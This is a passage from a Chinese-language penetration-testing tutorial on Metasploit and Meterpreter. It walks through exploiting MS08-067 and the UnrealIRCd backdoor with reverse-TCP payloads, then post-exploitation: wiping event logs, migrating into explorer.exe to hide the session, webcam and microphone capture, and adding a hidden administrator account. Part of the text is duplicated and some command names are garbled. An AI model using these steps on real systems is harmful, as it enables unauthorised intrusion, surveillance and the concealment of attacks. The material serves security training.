但 Meterpreter 提供了许多有趣的程序和工具，我们可以运行它们来获取目标机器的信息、控制摄像头和麦克风等设备，甚至利用这个据入点进一步访问网络。

当然，如果需要，你可以随时切换到普通 shell。

在大多数情况下，取决于你尝试做什么，Meterpreter Shell 比仅用普通 shell 有利得多。

我们稍后会讨论 Meterpreter Shell，但现在让我们快速涵盖前五步。

> 技术提示：
>
> 当所有其他方法都失败且你开始在 Metasploit 或 Meterpreter shell 中感到迷茫时，尝试输入“`help`”命令。
>
> 你也可以使用“`tab`”键来自动补全行，或者按两次来显示所有可用的利用（exploits）和负载（payloads）。
>
> 例：`show exploits <tab><tab>`

### 选择利用 (Picking an Exploit)

如果你是一个自虐狂并想要查看所有的利用程序，只需在 msf 提示符中输入“`show exploits`”即可：

```
msf> show exploits
```

但使用搜索命令找到你寻找的内容更为简单。只需输入“`search`” 然后你想要的信息。有时，非常具体会帮助你更快地找到需要的利用程序。

`search` 你唯一需要做的就是在运行 `msfconsole` 之前启动 PostgreSQL 数据库（尽管即使不运行，搜索也可以工作，只是速度会慢一些）。

在终端提示符处启动数据库，输入以下内容：

- `service postgresql start`
- `service metasploit start`
- `msfconsole`

Metasploit 允许你通过多种方式搜索利用程序，通过平台，甚至是 CVE（常见漏洞与披露）和漏洞跟踪编号（bugtrack numbers）。

输入“`help search`”查看所有选项：

```
msf > help search
Usage: search [keywords]

Keywords:
app : 针对客户端或服务器攻击的模块
author : 由作者编写的模块
uid : 与 Bugtrad ID 匹配的模块
cve : 与 CVE ID 匹配的模块
edb : 与 Exploit-DB ID 匹配的模块
name : 与描述名称匹配的模块
osdvdb : 与 OSVDB ID 匹配的模块
platform : 此平台的模块
ref : 与 ref 匹配的模块
type : 特定类型的模块（利用 exploit, 辅助 auxiliary 或后处理 post）

Examples:
search cve:2009 type:exploit app
```

要按名称搜索，只需输入 `search` 和你想要的文本。例如，为了查看 Metasploit 是否有微软安全公告 MS13-069 漏洞的利用程序：

```
msf > search ms13-069
Matching Modules

Disclosure Date Rank Description
exploit/windows/browser/ms13-069.caret 2013-09-10 00:00:00 UTC normal MS13-069 Mi
crossoft Internet Explorer CCaret Use-After-Free
```

要查看特定的 CVE 编号：

```
msf > search cve:2013-3668
Matching Modules

Name Disclosure Date Rank Description
exploit/windows/local/ppr_flatten_rec 2013-05-15 00:00:00 UTC average Windows EPA
thOB:pprFlatten_Rec Local Privilege Escalation
```

### 查看今年的所有的 CVE ID（截断列表）：


```
msf> search cve:2013
Matching Modules
Name Description Disclosure Date
Rank
normal auxiliary/admin/foreman_opennastack_satellite_priv_esc 2013-06-06 00:00:00
normal (Red Hat OpenStack/Satellite) creates: Mass Assignment
normal auxiliary/admin/mutiny_frontend read_delete 2013-05-15 00:00:00
normal Mutiny S Arbitrary File Read and Reset 2013-01-20 00:00:00
normal auxiliary/admin/rails_device_pass_reset 2013-04-03 00:00:00
normal auxiliary/admin/hopos_wpa_traversal 2013-01-20 00:00:00
normal Sophos Web Protection Appliance_cgi CGI Directory Traversal 2013-01-22 00:00:00
normal auxiliary/scada/ge_proifc_substitute_traversal 2013-06-18 00:00:00
normal auxiliary/dos/canon_wireless_printer Directory Traversal
normal auxiliary/dos/canon_wireless_printer Canon Denial of Service
normal auxiliary/dos/monkey_headers 2013-05-30 00:00:00
```

或者查看特定程序的利用信息，只需使用其名称：

```
msf> search unreal
```

当你想要进一步了解某个利用时，只需复制完整路径并使用 `info` 命令：

```
msf>info exploit/unix/irc/unreal_ircd_3281_backdoor
```

这将显示该利用程序的完整信息：

```
Available targets:
Id Name
@ Automatic Target
Basic options:
Name Current Setting Required Description
RHOST yes The target address
PORT 6667 yes The target port
Payload information:
Space: 1024
ALI LINUX
Description:
The quieter you become, the more you are able to hear
This module exploits a malicious backdoor that was added to the
Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the
Unreal3.2.8.1.tar.gz archive between November 2009 and June
12th 2010.
```

References:

http://cvedetails.com/veve/2010-2075/

http://www.osvdb.org/65445

http://www.unrealirc.com/txt/unrealadvisory.2010612.txt

信息屏幕显示了作者名称、简要概述（未显示）以及可以设置的基本选项、描述和利用程序的网站参考（已显示）。

如上面的图片所示，我们可以为该利用程序设置几个选项，这将引导我们进入下一节。

但在设置利用程序之前，我们需要 `use` 它。一旦我们有了需要的利用程序，只需运行带有利用名称的 `use` 命令。再次，复制利用路径和名称在这里也非常有效：

```
msf use exploit/unix/irc/unreal_ircd_3281 backdoor
msf exploit(unreal_ircd_3281 backdoor) > set
```

### 设置利用选项 (Setting Exploit Options)

在 Metasploit 中设置选项只需使用 `set` 命令后跟要设置的变量名：

好了，我们现在正在使用该利用程序，如何设置选项呢？

- `set <Variable Name> <Value>`

```
msf exploit(unreal_ircd_3281 backdoor) > show options
Module (exploit/unix/irc/unreal_ircd_3281):
Name            Current Setting  Required        Description
RHOST            yes              The target address
PORT            6667            yes             The target port
```

此利用程序只使用两个变量 `RHOST` 和 `PORT`。`Rhost` 是我们攻击的远程主机，`Rport` 是远程端口。

如果我们使用 `set` 命令配合目标系统的 IP 地址设置 `RHOST`：

```
msf exploit(unreal_ircd_3281 backdoor) > set RHOST 192.168.12.20
RHOST => 192.168.12.20
msf exploit(unreal_ircd_3281 backdoor) > 
```

如果我们再次运行 `show options` 命令，我们可以看到变量已经设置：

| Name | Current Setting | Required | Description |
| --- | --- | --- | --- |
| RHOST | 192.168.12.20 | yes | The target address |
| PORT | 6667 | yes | The target port |

这是该利用程序真正需要设置的所有内容。你可以现在运行 `exploit` 命令来执行它。

如果你感到有些迷茫，我们将在 Metasitable 章节中详细介绍。

取决于利用的类型，一旦我们的利用完成，通常会获得远程 shell 或 Meterpreter shell。远程 shell 本质上是一个远程终端连接，或者 Windows 用户远程桌面的文本版本。它允许我们像坐在键盘前一样输入命令。但 Meterpreter 提供了许多有趣的程序和工具，我们可以运行它们来获取目标机器的信息、控制摄像头和麦克风等设备，甚至利用这个据入点进一步访问网络。当然，如果需要，你可以随时切换到普通 shell。在大多数情况下，取决于你尝试做什么，Meterpreter Shell 比仅用普通 shell 有利得多。

我们稍后会讨论 Meterpreter Shell，但现在让我们快速涵盖前五步。

> 技术提示：
>
> 当所有其他方法都失败且你开始在 Metasploit 或 Meterpreter shell 中感到迷茫时，尝试输入 `help` 命令。
>
> 你也可以使用 `tab` 键来自动补全行，或者按两次来显示所有可用的利用（exploits）和负载（payloads）。
>
> 例：`show exploits <tab><tab>`

### 选择利用 (Picking an Exploit)

如果你是一个自虐狂并想要查看所有的利用程序，只需在 `msf` 提示符中输入 `show exploits` 即可：

```
msf> show exploits
```

但使用搜索命令找到你寻找的内容更为简单。只需输入 `search` 然后你想要的信息。有时，非常具体会帮助你更快地找到需要的利用程序。

`search` 你唯一需要做的是在运行 `msfconsole` 之前启动 PostgreSQL 数据库（尽管即使不运行，搜索也可以工作，只是速度会慢一些）。

在终端提示符处启动数据库，输入以下内容：

- `service postgresql start`
- `service metasploit start`
- `msfconsole`

Metasploit 允许你通过多种方式搜索利用程序，通过平台，甚至是 CVE（常见漏洞与披露）和漏洞跟踪编号（bugtrack numbers）。

输入 `help search` 查看所有选项：

```
msf > help search
Usage: search [keywords]

Keywords:
app : 针对客户端或服务器攻击的模块
author : 由作者编写的模块
uid : 与 Bugtrad ID 匹配的模块
cve : 与 CVE ID 匹配的模块
edb : 与 Exploit-DB ID 匹配的模块
name : 与描述名称匹配的模块
osdvdb : 与 OSVDB ID 匹配的模块
platform : 此平台的模块
ref : 与 ref 匹配的模块
type : 特定类型的模块（利用 exploit, 辅助 auxiliary 或后处理 post）

Examples:
search cve:2009 type:exploit app
```

要按名称搜索，只需输入 `search` 和你想要的文本。例如，为了查看 Metasploit 是否有微软安全公告 MS13-069 漏洞的利用程序：

```
msf > search ms13-069
Matching Modules

Disclosure Date Rank Description
exploit/windows/browser/ms13-069.caret 2013-09-10 00:00:00 UTC normal MS13-069 Mi
crossoft Internet Explorer CCaret Use-After-Free
```

要查看特定的 CVE 编号：

```
msf > search cve:2013-3668
Matching Modules

Name Disclosure Date Rank Description
exploit/windows/local/ppr_flatten_rec 2013-05-15 00:00:00 UTC average Windows EPA
thOB:pprFlatten_Rec Local Privilege Escalation
```

### 查看今年的所有的 CVE ID（截断列表）

```
msf> search cve:2013
Matching Modules
Name Description Disclosure Date
Rank
normal auxiliary/admin/foreman_opennastack_satellite_priv_esc 2013-06-06 00:00:00
normal (Red Hat OpenStack/Satellite) creates: Mass Assignment
normal auxiliary/admin/mutiny_frontend read_delete 2013-05-15 00:00:00
normal Mutiny S Arbitrary File Read and Reset 2013-01-20 00:00:00
normal auxiliary/admin/rails_device_pass_reset 2013-04-03 00:00:00
normal auxiliary/admin/hopos_wpa_traversal 2013-01-20 00:00:00
normal Sophos Web Protection Appliance_cgi CGI Directory Traversal 2013-01-22 00:00:00
normal auxiliary/scada/ge_proifc_substitute_traversal 2013-06-18 00:00:00
normal auxiliary/dos/canon_wireless_printer Directory Traversal
normal auxiliary/dos/canon_wireless_printer Canon Denial of Service
normal auxiliary/dos/monkey_headers 2013-05-30 00:00:00
```

或者查看特定程序的利用信息，只需使用其名称：

```
msf> search unreal
```

当你想要进一步了解某个利用时，只需复制完整路径并使用 `info` 命令：

```
msf>info exploit/unix/irc/unreal_ircd_3281_backdoor
```

这将显示该利用程序的完整信息：

```
Available targets:
Id Name
@ Automatic Target
Basic options:
Name Current Setting Required Description
RHOST yes The target address
PORT 6667 yes The target port
Payload information:
Space: 1024
ALI LINUX
Description:
The quieter you become, the more you are able to hear
This module exploits a malicious backdoor that was added to the
Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the
Unreal3.2.8.1.tar.gz archive between November 2009 and June
12th 2010.
```

References:

http://cvedetails.com/veve/2010-2075/

http://www.osvdb.org/65445

http://www.unrealirc.com/txt/unrealadvisory.2010612.txt

信息屏幕显示了作者名称、简要概述（未显示）以及可以设置的基本选项、描述和利用程序的网站参考（已显示）。

如上面的图片所示，我们可以为该利用程序设置几个选项，这将引导我们进入下一节。

但在设置利用程序之前，我们需要 `use` 它。一旦我们有了需要的利用程序，只需运行带有利用名称的 `use` 命令。再次，复制利用路径和名称在这里也非常有效：

```
msf use exploit/unix/irc/unreal_ircd_3281 backdoor
msf exploit(unreal_ircd_3281 backdoor) > set
```

### 设置利用选项 (Setting Exploit Options)

在 Metasploit 中设置选项只需使用 `set` 命令后跟要设置的变量名：

好了，我们现在正在使用该利用程序，如何设置选项呢？

- `set <Variable Name> <Value>`

```
msf exploit(unreal_ircd_3281 backdoor) > show options
Module (exploit/unix/irc/unreal_ircd_3281):
Name            Current Setting  Required        Description
RHOST            yes              The target address
PORT            6667            yes             The target port
```

此利用程序只使用两个变量 `RHOST` 和 `PORT`。`Rhost` 是我们攻击的远程主机，`Rport` 是远程端口。

如果我们使用 `set` 命令配合目标系统的 IP 地址设置 `RHOST`：

```
msf exploit(unreal_ircd_3281 backdoor) > set RHOST 192.168.12.20
RHOST => 192.168.12.20
msf exploit(unreal_ircd_3281 backdoor) > 
```

如果我们再次运行 `show options` 命令，我们可以看到变量已经设置：

| Name | Current Setting | Required | Description |
| --- | --- | --- | --- |
| RHOST | 192.168.12.20 | yes | The target address |
| PORT | 6667 | yes | The target port |

这是该利用程序真正需要设置的所有内容。你可以现在运行 `exploit` 命令来执行它。

如果你感到有些迷茫，我们将在 Metasitable 章节中详细介绍。

### 在 Windows XP 上获取远程 shell (Getting a remote shell on a Windows XP Machine)

我们简要看了 Linux Linux 的利用程序，让我们来运行一下 `ms08-067` 利用程序，因为它是更流行的 Windows 利用程序之一。

1. 为了开始，只需使用该利用程序：

   `msf > use exploit/windows/smb/ms08_067_netapi`

2. 现在输入，`show options`:


```
msf exploit(ms08_netapi) > show options
Module options (exploit/windows/smb):
| Name | Current Setting | Required | Description |
| :--- | :--- | :--- | :--- |
| RHOST | | yes | The target address |
| RPORT | 445 | yes | The SMB service |
| SMBPIPE | | yes | The pipe name to use |

Exploit target:
| Id | Name |
| :--- | :--- |
| 0 | Automatic Targeting The quieter you become, the more you are able |
```

注意，默认情况下目标被设置为“Automatic Targeting”（自动目标）。我在使用自动目标时结果参差不齐，有时指定特定目标效果更好。

### 3. 设置特定目标

如果我们想设置特定的目标，可以使用“`show targets`”：

```
msf exploit(ms08_netapi) > show targets
Exploit targets:
| Id | Name |
| :--- | :--- |
| 0 | Automatic Targeting |
| 1 | Windows 2000 |
| 2 | Windows XP SP0/SP1 |
| 3 | Windows XP SP2 (Always NX) |
| 4 | Windows XP SP2 (NX) |
| 5 | Windows XP SP3 (Always NX) |
| 6 | Windows XP SP3 (NX) |
| 7 | Windows 2003 |
| 8 | Windows 2003 SP1 (NX) |
| 9 | Windows 2003 SP1 (NX) |
| 10 | Windows 2003 SP1 (NX) |
| 11 | Windows 2003 SP2 (NX) |
| 12 | Windows 2003 SP2 (NX) |
| 13 | Windows 2003 SP2 (NX) |
| 14 | Windows 2003 SP2 (NX) |
| 15 | Windows XP SP2 (NX) |
```

### 4. 设置目标

然后，输入“`set target <ID>`”来设置实际目标。

```
msf exploit(ms08_netapi) > set target 2
```

### 5. 验证目标

再次执行“`show options`”就会发现我们确实设置了目标：

```
Exploit target:
| Id | Name |
| :--- | :--- |
| 2 | Windows XP SP0/SP1 |
```

最后，虽然在常规漏洞利用中并不常用，但如果我们需要，也可以设置高级选项。要显示高级选项，只需输入“`show advanced`”：

```
msf exploit(ms08_netapi) > show advanced
Module advanced options:
| Name | Current Setting | Description |
| :--- | :--- | :--- |
| HOST | | The local client address |
| CPORT | | The local client port |
| ConnectTimeout | 10 | Maximum number of seconds to establish a TCP connection |
| ContextFile | | The information file that contains
```

现在我们已经看到了如何选择漏洞以及如何设置选项。在许多漏洞中，我们还需要设置 payload（有效载荷）。

## 选择 Payload

如果你不能对机器做些什么，那么攻击它有什么乐趣呢？Payload 允许你对被攻击的系统执行功能性操作。Metasploit 自带了许多不同的 payload 供你使用。要查看它们，只需输入“`show payloads`”：

```
msf exploit(ms08_netapi) > show payloads
Compatible Payloads
| Name | Rank | Description |
| :--- | :--- | :--- |
| generic/custom | normal | Payload |
| generic/debug_trap | normal | |
| x86 Debug Trap | normal | |
| generic/shell_bind_tcp | normal | |
| Command Shell, Bind TCP INLINE | normal | |
| Command/shell/reverse_tcp | normal | |
| Command Shell, Reverse TCP INLINE | normal | |
| Command/shell/tight_loop | normal | |
| tight Loop | | |
| windows/dllinject | normal | |
| windows/inject/bind_ipv6 | | DLL Injection, Bind TCP Stager (IPv6) |
| windows/inject/bind_mem_tcp | normal | |
```

或者输入“`set payload`”并按两次回键。这将提示 Metasploit 询问你是否想查看所有可用的 payload：

大部分 payload 都以“操作系统/Shell 类型”的格式列出，如下所示：

- `set payload/osx/x86/shell_reverse_tcp`
- `set payload/linux/x64/shell_reverse_tcp`
- `set payload/windows/shell_reverse_tcp`
- `set payload/windows/meterpreter/reverse_tcp`

只需为你的目标选择正确的操作系统，然后选择你想要的 payload 即可。

最流行的 payload 类型是 shell，无论是普通 shell 还是 Meterpreter shell。如果我们想要一个远程终端 shell 来远程运行命令，请使用标准 shell。如果你希望具有操作会话和运行扩展命令的能力，那么你需要的 Meterpreter shell（我们将在下一章详细讨论）。

payload 有不同的通信方式回传到攻击系统。我通常更倾向于在目标系统上执行后使用 reverse tcp shells（反向连接），它们会让攻击机器反向连接我们的 Kali 系统。

这样做的大处是，由于受害者机器在技术上是“发起”连接，它通常不会被防火墙拦截，而从外部尝试的连接极可能会被拦截。

一旦确定了 payload，我们就设置 `LHOST`。

### 6. 设置 LHOST

```
msf exploit(ms08_netapi) > set LHOST 192.168.0.10
```

现在我们知道了 payload，并设置了 `LHOST`。

## 设置 Payload

当我们想要设置 `LHOST` 时，使用“`show options`”：

```
msf exploit(ms08_netapi) > show options
Module options (exploit/windows/smb):
| Name | Current Setting | Required | Description |
| :--- | :--- | :--- | :--- |
| RHOST | | yes | The target address |
| RPORT | 445 | yes | The SMB service |
| SMBPIPE | | yes | The pipe name to use
```

Exploit target:

| Id | Name |

| :--- | :--- |

| 2 | Windows XP SP0/SP1 |

### 7. 设置 RHOST

```
msf exploit(ms08_netapi) > show options
```

Module options (exploit/windows/smb):

| Name | Current Setting | Required | Description |

| :--- | :--- | :--- | :--- |

| RHOST | | yes | The target address |

| RPORT | 445 | yes | The SMB service |

| SMBPIPE | | yes | The pipe name to use

### 8. 设置 RHOST

```
msf exploit(ms08_netapi) > set RHOST 192.168.0.20
```

### 9. 设置 LHOST

```
msf exploit(ms08_netapi) > set LHOST 192.168.0.10
```

### 10. 运行漏洞利用

要运行漏洞利用，只需使用“`exploit`”命令。

```
msf exploit(ms08_netapi) > exploit
```

在 Metasploit 相当冗长的介绍中，我们学习了如何执行该框架的一些基本功能，以便我们能够发现并利用漏洞。我们还简要讨论了负载（payloads）的使用以及必要函数的设置。

Metasploit 能够做很多事情；我们只是简要地浏览过了一些最基础的核心功能。

再次强调，如果你在此时感到迷茫，不要恐慌！我们稍后将更详细地介绍整个 Meterpreter 利用过程。

接下来，我们将讨论 Meterpreter shell，这是一个强大且有趣的界面，我们可以用它来操纵我们成功利用的系统。

# 第 4 章 – Meterpreter Shell

## 资源

- http://en.wikibooks.org/wiki/Metasploit/MeterpreterClient
- http://cyberarms.wordpress.com/2013/02/03/remotely-recording-speech-and-turning-it-into-searchable-text-with-metasploit-watson/

### 介绍

在成功利用漏洞后，Meterpreter shell 允许你在拥有完整远程 shell 的同时，执行许多不同的功能。

Meterpreter 用于在获得远程连接后操纵系统，取决于你的目标；通常情况下，Meterpreter shell 比直接的远程终端 shell 更优。

Meterpreter 为我们提供了一系列命令和工具，这些工具可以极大辅助安全测试。例如，有些命令可以提取密码哈希并从系统中收集数据和设置。

Meterpreter 中还包含了一些趣味性工具，例如，你可以开启用户的摄像头并拍摄静态照片，可以开启远程麦克风，甚至可以获取用户正在操作的桌面截图。

在本节中，我们将快速介绍 Meterpreter shell 及其部分功能。

## 基础 Meterpreter 命令

让我们从一台被我们骗过运行带有后门的程序的机器开始（要查看如何创建规避杀毒软件的后门，请参见“Veil”章节）。一旦后门程序连接到我们的 Kali 系统并创建了会话，我们就会自动进入活动会话，如下所示：

```
msf > use multi/handler

msf exploit (handler) > set payload windows/meterpreter/reverse_tcp

payload = windows/meterpreter/reverse_tcp

msf exploit (handler) > set LHOST 192.168.1.142

msf exploit (handler) > set LPORT 4000

lport = 4000

msf exploit (handler) > exploit

[*] Started reverse handler on 192.168.1.142:4000

[*] Starting the payload handler...

[*] Sending stage (770848 bytes) to 192.168.1.132

[*] Meterpreter session 1 opened (192.168.1.142:4000) -> 192.168.1.132:49176) 

at 2013-10-20 14:45:55 -0400
```

连接到会话后，我们将获得一个 Meterpreter 提示符：

```
meterpreter >
```

好的，让我们看看 Meterpreter 能做什么，我们先从使用 `help` 命令查看：

```
meterpreter > help
```

当我们这样做操作时，发现命令被分成了几个部分。

这些命令是：

- 核心命令
- 文件系统命令
- 网络命令
- 系统命令
- 用户界面命令
- 摄像头命令
- 以及三个特权命令

我们不会涵盖所有命令，但将深入查看其中几个。建议通读所有命令，以便对它们的功能有一个基本的了解。

### 核心命令

| 命令 | 描述 |
| --- | --- |
| help | 帮助菜单 |
| background | 将当前会话置于后台 |
| bgkill | 杀死后台 meterpreter 脚本 |
| bglist | 列出运行中的后台脚本 |
| bgrun | 作为后台线程执行 meterpreter 脚本 |
| channel | 显示活动通道的信息 |
| close | 关闭通道 |
| disable_unicode | 禁用 unicode 字符串编码 |
| enable_unicode | 启用 unicode 字符串编码 |
| exit | 终止 meterpreter 会话 |
| info | 显示后处理模块的信息 |
| interact | 与通道交互 |
| irb | 进入脚本会话 |
| load | 加载一个或多个 meterpreter 扩展 |
| migrate | 将服务器迁移到另一个进程 |
| quit | 终止 meterpreter 会话 |
| read | 从通道读取数据 |
| resource | 执行存储在文件中命令 |
| run | 执行 meterpreter 脚本或后处理模块 |
| use | 执行 load 的别名 |
| write | 向通道写入数据 |

作为初级用户，你可能只会使用列表中的 `background`, `help`, `load`, `migrate`, `run` 和 `exit`。

- `background` - `background` 允许你将会话置于后台，以便你可以回到 msf 提示符或访问其他会话。

```
meterpreter > background

[*] exploit (handler)

msf exploit(handler) >
```

你只需使用“`session -i <session #>`”命令即可返回会话。

- **Load and Run** – 这些命令允许你在 Meterpreter 内部使用额外的模块和命令。
- **Exit** 退出 Meterpreter。

### 文件系统命令

当你拥有 Meterpreter shell 时，基本上在处理两个文件系统：本地和远程。文件系统命令允许你与这两者进行交互。

```
Stdbapi: File system commands

Command          Description

cat              读取文件内容到屏幕

cd               更改目录

download         下载文件或目录

edit             编辑文件

getwd           打印本地工作目录

getwd           打印工作目录

lcd              更改本地工作目录

lpwd             打印本地工作目录

ls               列出文件

mdir             创建目录

mv               将源移动到目的地

pwd              打印工作目录

rm               删除指定的文件

rmdir            移除目录

search           搜索文件

upload           上传文件或目录
```

（注：此处原文中 `getwd` 重复出现，翻译予以保留）

在你的目标机器上的 "test" 目录下，只需使用 "`upload`" 命令即可传输文件。

下载的操作方式相同，只需使用 `download` 和文件名从远程系统拉取文件并将其存储在你的本地 Kali 机器上：

```
meterpreter > download AccountInfo.txt

[*] downloading: AccountInfo.txt -> AccountInfo.txt

[*] downloaded : AccountInfo.txt -> AccountInfo.txt
```


现在，让我们来看一下网络命令。

## 网络命令 (Network Commands)

这些命令允许你显示和操作一些基础的网络功能。



- `Arp` – 显示远程 MAC 地址到实际 IP 地址的列表。
- `Ifconfig` & `ipconfig` 都显示远程系统上的任何网络接口。
- `Netstat` – 显示活动网络连接列表。
- `Portfwd` 和 `route` 允许你进行一些高级路由攻击。虽然我们不会在书中介绍这些内容，但使用这两个命令可以让你利用已攻破的机器作为跳板（pivot），或攻击目标网络或网络中的其他机器。

## 系统命令 (System Commands)

下面是系统命令列表。我们不会涵盖所有命令，但再次强调，阅读列表以熟悉它们是有好处的：

| Command | Description |
|---|---|
| `clears` | 清除事件日志 |
| `drop_token` | 放弃任何激活的身份模拟令牌 |
| `execute` | 执行命令 |
| `getid` | 获取当前进程标识 |
| `getpriv` | 尝试为当前进程启用所有权限 |
| `getuid` | 获取服务器运行的用户 |
| `kill` | 终止进程 |
| `ps` | 列出运行中的进程 |
| `reboot` | 重启远程计算机 |
| `reg` | 在远程机器上修改并调用 `ReverseToSelf(i)` |
| `drop` | 丢弃系统命令 |
| `shutdown` | 关闭远程计算机 |
| `steal_token` | 尝试从目标进程中窃取身份模拟令牌 |
| `suspend` | 挂起或恢复进程列表 |
| `sysinfo` | 获取远程系统信息（如操作系统） |

**`CLEAREV`** 这个实用的小命令将尝试清除远程计算机上的日志。

我们可能想要擦除痕迹并清除目标机器上的系统日志。如果我们查看 Windows 7 系统侧的日志，会发现它充满了事件：



其中一些事件可能包含我们做过的事情。因此我们可以在 Kali 系统上通过“`clearev`”来远程清除日志：

```
> clearev

>[*] Wiping 1587 records from Application...

>[*] Wiping 5148 records from System...

>[*] Wiping 4151 records from Security...
```

应用程序（Application）、系统（System）和安全（Security）日志已被清除。如果我们再次查看安全日志，它只显示了一条记录，“Log Clear（日志清除）”

| Security | Date and Time | Source | Event ID | Task |
|---|---|---|---|---|
| Audi... | 10/22/2013 8:46:03 AM | Eventlog | 1102 | Log clear |

显然，这对于任何分析日志的人来说都会显得非常显眼。但如果你刚刚删除了某些事件，你仍然可以清除整个日志。

## GETPID & PS 命令

在使用 Meterpreter 时，你会经常用到的两个命令是 `getpid` 和 `ps`。

- `Getpid` – 告诉你的 shell 运行在哪个进程 ID（PID）上
- `Ps` – 列出远程系统上运行的所有进程

所以如果我输入“`getpid`”：

```
meterpreter > getpid

Currentid: 3824
```

这是我们的 shell 使用的进程 ID 号。如果我输入“`ps`”，就可以看到所有的进程：



如果我们向下查看列表，寻找我们的 PID 号 3824，可以看到看到：

```
3824 3796 powershell.exe x86 1 WIN-LOANLOTTDQU\Fred

C:\Windows\System32\PowerShell\v1.0\powershell.exe
```

这显示了我们的进程 ID 3824。它还显示我们正在以用户“Fred”的身份在 `powershell.exe` 进程下。

当我想从这个低级进程“迁移”（migrate）到一个具有更高权限的进程时，这些信息非常有用。我们可以将 shell 从这个 PID 移动到一个具有更高权限的进程。

迁移还允许我们将 shell 合并并隐藏到另一个常见的进程中，本质上是隐藏了我们的连接。`Explorer.exe` 是最常用的迁移目标进程之一。

只需找到你想使用的进程的 PID#（在我们的系统中是 1736），然后输入“`migrate <PID#>`”：

```
meterpreter > migrate 1736

> migrate from 3824 to 1736...

[*] Migration completed successfully.

meterpreter > getpid

Current pid: 1736

meterpreter >
```

## 捕捉摄像头视频、截图和声音

前段时间子当我听新闻时，我记得他们一直在讨论一种全新的“高级持续性威胁”（APT），这种威胁实际上允许攻击者打开你的摄像头甚至录制声音。我觉得这完全荒谬，因为你一直都能开启自己的摄像头了。

### BECAM
（此处原文为重复，已略）

### SCREENS
（此处原文为重复，已略）

### SOUNDS
（此处原文为重复，已略）

```
meterpreter > run getui-e to enable desktop:

> Windows Remote Desktop Configuration Meterpreter Script by Darkoperator

> Carlos Perez carlos_perez@darkoperator.com

> Enable Desktop, enabling it ...

> Setting Terminal Services service startup mode

> The Terminal Services service is not set to auto, changing it to auto

> For cleanup command: run multi_console_command -rc /root/.msf4/logs/scripts/getui-e1/clean.up 20131022_5019.rc

meterpreter >
```

然后再次运行该程序并提供用户名和密码以进行使用：

```
meterpreter > run getui -u EvilUser -p P##password

> Windows Remote Desktop Configuration Meterpreter Script by Darkoperator

> Carlos Perez carlos_perez@darkoperator.com

> Setting user account for login

> Adding User: EvilUser

> Adding User: EvilUser with Password: P##password

Hiding user from Login screen

> Adding EvilUser to local group 'Remote Desktop Users'

> Adding User: EvilUser to local group 'Administrators'

> You can now log in with the created user

> For cleanup command: run multi_console_command -rc /root/.msf4/logs/scripts/getui-e1/clean.up 20131022_5019.rc

meterpreter >
```

现在我们只需要打开终端并运行 Kali 自带的 "`rdesktop`" 命令来连接到 Windows 远程桌面：

```
root@Kali:~# rdesktop -u EvilUser -p - 192.168.198.132

Autoselected keyboard map en-us

Password:
```

"`p -`" 选项告诉 `rdesktop` 提示你输入密码。这要安全一些，因为你没有在网络上发送明文密码。

一旦我们登录，就会将在我们的 Kali 机器上获得一个图形化的 Windows 桌面：

还有额外的脚本可以尝试关闭反病毒软件、禁用目标机的防火墙、从 Firefox、flp 程序等多个程序中提取伪迹和凭据，以及更多功能。

花点时间查看一下它们。

## 远程 Shell (Remote Shell)

最后，让我们看看如何获取真正的 C:\ 提示符。一旦我们有了 Meterpreter，这非常简单。只需输入命令 "`shell`"即可。

```
meterpreter > shell

Process 3044 created.

Channel 1 created.

Microsoft Windows [Version 6.1.7601]

Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users\Fred\Desktop>
```

就是这样！我们现在可以运行任何想要的 DOS 命令。

## 玩模块 - 从远程 Shell 恢复已删除的文件 (Playing with Modules - Recovering Deleted Files from Remote Shell)

现在我们花一点时间聊一些高级一点的内容。看看如何使用内置的 Meterpreter 模块恢复从远程驱动删除的文件。

"`recovery_files`" 脚本允许你恢复目标用户从其系统中删除的文件。这可能非常危险，被删除的文件可能包含取证和渗透测试领域都感兴趣的信息。

系统文件和日志、账户信息以及重要文档只是恢复内容的一小部分。

对于这个示例，我简单地取了我的 Windows 7 系统，创建了一个虚假的“Accounts Passwords.txt”文件，并将 nmap 的“Discovery.pdf”手册副本保存到 E: 驱动器。

然后我删除了这些文件：

